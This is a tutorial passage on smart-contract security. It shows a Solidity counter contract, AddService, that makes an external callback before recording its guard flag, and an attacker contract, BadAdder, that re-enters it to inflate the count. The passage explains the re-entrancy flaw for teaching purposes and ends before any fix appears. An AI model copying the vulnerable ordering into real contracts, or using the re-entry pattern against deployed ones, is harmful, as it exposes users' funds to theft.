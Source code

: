 Here's a condensed example of a re-entry attack。The AddService contract is a simple counter, and each external contract can call addByOne of the AddService contract to increment the field _ count by one, while requiring each external contract to call the function at most once.。In this way, the _ count field reflects exactly how many contracts AddService has been called by.。At the end of the addByOne function, AddService calls the callback function notify for the external contract。The code for AddService is as follows:

```
contract AddService{

    uint private _count;
    mapping(address=>bool) private _adders;

    function addByOne() public {
        / / Mandatory that each address can only be called once
        require(_adders[msg.sender] == false, "You have added already");
        / / Count
        _count++;
        / / Call the callback function of the account
        AdderInterface adder = AdderInterface(msg.sender);
        adder.notify();
        / / Add the address to the called collection
        _adders[msg.sender] = true;   
    }
}

contract AdderInterface{
    function notify() public;  
}
```

If AddService is deployed as such, a malicious attacker can easily control the number of _ count in AddService, invalidating the counter altogether。The attacker only needs to deploy a contract BadAdder, which can be used to call AddService, which can achieve the attack effect.。The BadAdder contract is as follows:

```

contract BadAdder is AdderInterface{

    AddService private _addService = //...;
    uint private _calls;

    / / callback
    function notify() public{
        if(_calls > 5){
            return;
        }
        _calls++;
        //Attention !!!!!!
        _addService.addByOne();
    }

    function doAdd() public{
        _addService.addByOne();    
    }
}
```
